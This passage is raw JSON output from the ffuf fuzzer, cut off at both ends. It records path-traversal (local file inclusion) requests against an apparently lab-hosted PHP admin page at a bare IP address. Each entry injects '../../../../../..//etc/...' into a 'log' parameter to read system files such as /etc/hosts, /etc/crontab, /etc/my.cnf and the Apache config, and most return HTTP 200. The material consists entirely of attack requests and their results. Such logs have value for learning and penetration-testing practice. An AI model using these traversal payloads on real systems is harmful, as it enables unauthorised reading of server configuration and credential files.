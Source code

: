 charset=UTF-8","redirectlocation":"","scraper":{},"duration":77747345,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/cron.deny","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf520","FUZZ":"/etc/httpd/logs/error_log"},"position":32,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":68632047,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/httpd/logs/error_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf529","FUZZ":"/etc/logrotate.d/ftp"},"position":41,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43396156,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/logrotate.d/ftp","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf52a","FUZZ":"/etc/logrotate.d/proftpd"},"position":42,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43460996,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/logrotate.d/proftpd","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf518","FUZZ":"/etc/hosts"},"position":24,"status":200,"length":2290,"words":155,"lines":110,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":69397672,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/hosts","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf57","FUZZ":"/etc/at.allow"},"position":7,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":69281631,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/at.allow","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5f","FUZZ":"/etc/crontab"},"position":15,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":69520152,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/crontab","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf519","FUZZ":"/etc/hosts.allow"},"position":25,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":70079405,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/hosts.allow","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf51c","FUZZ":"/etc/httpd/conf/httpd.conf"},"position":28,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":70110925,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/httpd/conf/httpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf517","FUZZ":"/etc/grub.conf"},"position":23,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":70361506,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/grub.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf52b","FUZZ":"/etc/logrotate.d/vsftpd.log"},"position":43,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43389246,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/logrotate.d/vsftpd.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf52d","FUZZ":"/etc/motd"},"position":45,"status":200,"length":2329,"words":183,"lines":112,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43177175,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/motd","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf52c","FUZZ":"/etc/lsb-release"},"position":44,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43845808,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/lsb-release","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf530","FUZZ":"/etc/my.cnf"},"position":48,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43003774,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/my.cnf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf52f","FUZZ":"/etc/mtab"},"position":47,"status":200,"length":4330,"words":260,"lines":124,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43702968,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/mtab","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf52e","FUZZ":"/etc/modules.conf"},"position":46,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44692623,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/modules.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf531","FUZZ":"/etc/my.conf"},"position":49,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;